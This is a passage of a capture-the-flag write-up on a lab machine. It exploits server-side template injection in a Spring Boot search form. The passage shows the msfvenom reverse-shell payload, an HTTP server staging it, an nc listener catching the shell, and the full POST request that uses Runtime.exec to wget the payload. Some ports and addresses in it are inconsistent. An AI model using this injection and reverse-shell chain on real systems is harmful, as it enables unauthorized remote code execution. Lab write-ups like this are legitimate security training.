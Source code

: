 ![image](https://user-images.githubusercontent.com/105310322/185698965-a683e7f6-fcae-48c3-bd6d-588297069d1b.png)


With the above news I tried for a bit on some XXE exploits but to no avail. However I noticed in BurpSuite if you run a search it shows that its running on Spring Boot. More research shows that it was possible to do a SSTI injection.

After trying out a few ways to detect what type of SSTI injection we can do the following string below in the name field worked.

Note: There are alot of SSTI options but hacktricks has a good guide on testing what it is vulnerable to. https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection

This link is where I found the command https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/el-expression-language

So now we can craft an exploit and send it through burpsuite.

```console
└──╼ [★]$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.30 LPORT=1234 -f elf  > exploit.elf
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
```
Set up our http server to transfer files and a listener to grab the shell then run the following commands from the search portion of the URL in Burpsuite.

Note: Having the * is important for the command to run so the webpage interprets it the way we want.


```console
└──╼ [★]$ python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.129.65.161 - - [18/Aug/2022 22:56:25] "GET /exploit.elf HTTP/1.1" 200 -
```
```console
└──╼ [★]$ nc -lvnp 1234
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::8000
Ncat: Listening on 0.0.0.0:8000
Ncat: Connection from 10.129.65.161.
Ncat: Connection from 10.129.65.161:58302.
id
uid=1000(woodenk) gid=1001(logs) groups=1001(logs),1000(woodenk)
```
```
POST /search HTTP/1.1
Host: 10.129.66.0:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 106
Origin: http://10.129.66.0:8080
DNT: 1
Connection: close
Referer: http://10.129.66.0:8080/
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

name=*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("wget http://10.10.14.47:8000/exploit.elf")}
```
```
```